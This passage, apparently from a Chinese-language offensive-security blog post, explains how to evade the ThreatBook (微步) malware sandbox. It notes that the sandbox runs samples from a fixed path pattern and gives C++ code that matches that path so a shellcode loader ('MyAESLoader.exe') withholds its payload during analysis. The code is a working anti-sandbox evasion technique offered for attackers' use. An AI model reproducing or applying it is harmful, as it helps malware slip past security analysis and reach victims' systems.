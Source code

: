 除此之外，这里也提一嘴对特定沙箱的绕过方法：其实对特定沙箱绕过是比较容易的，尤其是沙箱能够开放其自己的很多信息的情况下：

8、反”微步“沙箱：这里拿微步沙箱举例子，简单使用两次微步的沙箱，你会发现其存在一个非常简单但是实用的特征，他总是把样本放到一个形如，如下路径的磁盘位置进行运行：

`C:\\[A-Za-z]{7}\\样本名称`

如下是一次运行沙箱运行截图：

![image-20231206200509385.png](assets/1703640419-d5e4dd2fd303a6b57a42a7ce434346da.png)

这里我们直接锁定路径，正则匹配，如果出现再这种目录下，不释放shellcode即可：

代码实现如下：

```php
​  
/\*  
    根据沙箱放置样本路径特征对抗微步沙箱  

\*/  
bool checkWEIBU() {  
    char currentProcessPath\[MAX\_PATH + 1\];  
    GetModuleFileName(NULL, currentProcessPath, MAX\_PATH + 1);  
    std::string input(currentProcessPath);  
    std::regex pattern(R"(C:\\\\\[A-Za-z\]{7}\\\\MyAESLoader\\.exe)");  
    std::smatch matches;  
​  
    if (std::regex\_search(input, matches, pattern)) {  
        return false;  
    }  
    else {  
        return true;  
    }  
}
```
